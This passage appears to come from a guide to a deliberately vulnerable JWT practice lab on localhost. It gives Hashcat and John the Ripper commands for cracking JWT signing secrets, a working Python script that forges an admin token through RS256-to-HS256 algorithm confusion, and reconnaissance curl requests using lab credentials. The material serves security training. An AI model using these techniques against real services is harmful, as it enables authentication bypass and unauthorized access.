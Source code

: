 ### **Secret Cracking:**
```bash
# Hashcat JWT cracking
hashcat -a 0 -m 16500 jwt.txt wordlist.txt

# John the Ripper
john --format=HMAC-SHA256 --wordlist=wordlist.txt jwt.txt

# Custom Python script
python3 jwt_cracker.py --jwt [TOKEN] --wordlist rockyou.txt
```

### **Algorithm Confusion:**
```python
# Python script for RS256 to HS256 confusion
import jwt
import requests

def algorithm_confusion_attack():
    # Get public key
    response = requests.get('http://localhost:5001/api/jwt/pubkey')
    public_key = response.json()['public_key']
    
    # Forge admin token
    payload = {
        "sub": "607f1f77bcf86cd799439011",
        "username": "admin",
        "role": "admin",
        "permissions": ["admin", "read", "write", "delete"]
    }
    
    # Sign with public key as HMAC secret
    forged_token = jwt.encode(payload, public_key, algorithm="HS256")
    return forged_token
```

## **🧪 Testing Methodology**

### **1. Reconnaissance Phase**
```bash
# Enumerate endpoints
curl http://localhost:5001/health
curl http://localhost:5001/api/jwt/pubkey

# Get valid JWT token
curl -X POST http://localhost:5001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"alice","password":"alice123"}'
```

### **2. Token Analysis**
```bash
# Decode JWT structure
echo "TOKEN_HERE" | cut -d. -f1 | base64 -d
echo "TOKEN_HERE" | cut -d. -f2 | base64 -d

# Analyze with jwt_tool
python3 jwt_tool.py [TOKEN] -T
```
